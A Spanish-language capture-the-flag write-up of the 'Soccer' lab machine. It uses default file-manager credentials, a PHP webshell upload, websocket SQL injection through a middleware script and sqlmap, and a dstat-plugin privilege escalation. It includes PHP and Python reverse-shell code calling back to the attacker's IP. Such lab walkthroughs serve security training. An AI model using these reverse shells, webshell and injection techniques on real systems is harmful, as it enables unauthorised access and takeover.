# Soccer

Dificultad: Easy
OS: Linux

En este writeup, voy a demostrar paso a paso como conseguir el root en la máquina Soccer

## Enumeración

Primero realizamos un escaneo inicial de puertos mediante la herramienta `nmap` para determinar los puertos abiertos de la máquina:

```text
❯ sudo nmap -Pn -p- --min-rate 100 10.10.11.194 -T5 --open
[sudo] password for maindavis: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-13 17:58 CET
Nmap scan report for 10.10.11.194
Host is up (0.039s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9091/tcp open  xmltec-xmlmail
```

Después de escanear la máquina, hemos encontrado tres puertos abiertos:

-   `22/tcp`: SSH
-   `80/tcp`: HTTP
-   `9091/tcp`: Desconocido

Vamos a empezar investigando la página web.


En esta página web, encontramos solo texto y algunas imágenes, así que ejecutamos un gobuster para encontrar otros posibles directorios.



Gracias a esto, encontré un directorio llamado "Tiny" que contiene un login de "Tiny File Manager".



Buscamos a ver si existen credenciales por defecto y nos encontramos con "admin:admin@123".



## Explotación

Con esto conseguimos acceso, y vemos que podemos subir archivos por lo que vamos a subir una webshell en php.



Entramos en la sección de upload arriba a la derecha y subimos nuestra webshell.



Entramos en http://socer.htb/tiny/uploads/webshell.php y vemos que ya tenemos ejecución de comandos como www-data.



## Escalada de privilegios - User

Lanzamos una reverse shell (En este caso ha funcionado la de php).

```bash
php -r '$sock=fsockopen("10.10.14.72",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Y la convertimos en una shell interactiva con lo siguiente:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Ahora que tenemos una shell funcional ejecutamos linpeas.sh para que nos haga un escaneo del servidor y planear un vector para la escalada de privilegios.




Y encontramos que existe un subdominio llamado **soc-player.soccer.htb**, lo añadimos a /etc/hosts y entramos.

Nos encontramos con una web que ahora tiene una barra de opciones arriba a la izquierda, las que más nos interesan son la de **Login** y **Signup**.



Creamos una cuenta e iniciamos sesión para ver como es por dentro.



Nos encontramos una aplicación donde ingresando un número de ticker verificar si existe o no, si paramos la petición con burpsuite tendremos lo siguiente



También podemos apreciar que esta es la aplicación que tienen en el puerto 9091 y leyendo el código nos lo confirma aún más, y nos da la dirección al websocket que la contiene.



Lo primero que se viene a la cabeza es un sqlinjection.
En esta página https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html nos encontramos un post de un blog sobre esto, donde viene el script que voy a usar


```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091" # Cambiamos ws_server por el que queremos vulnerar

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"id":"%s"}' % message # Cambiamos data

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```

Ejecutamos y vemos que nos ha creado una web local donde por GET podemos meter el parámetro que queremos ver si es vulnerable 



Lanzando SQLMAP vemos que existe una base de datos llamada soccer_db que contiene una tabla llamada accounts que contiene lo siguiente



Siendo el usuario test el que creamos anteriormente

Entramos por ssh con las creds player:PlayerOftheMatch2022 y ya tenemos el usuario



## Escalada de privilegios - Root

Lanzamos linpeas y nos encontramos con lo siguiente
```text
permit nopass player as root cmd /usr/bin/dstat
```

Vemos que podemos ejecutar como root dstat, una aplicación que parece que es para monitorizar la CPU

Si entramos en man dstat podemo ver que podemos injectar codigo python haciendolo pasar por un plugin



Creamos un archivo .py con una reverse shell de python y lo copiamos a /usr/local/share/dstat (importante que el nombre sea dstat_name.py siendo name el nombre del plugin, en este caso shell)

```python
import socket,os,pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.42",4242));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")
```

Y ejecutamos la aplicacion con sudo y el plugin malicioso

```bash
doas -u root /usr/bin/dstat --shell
```

Con esto ya tendríamos una shell root y solo nos queda leer root.txt



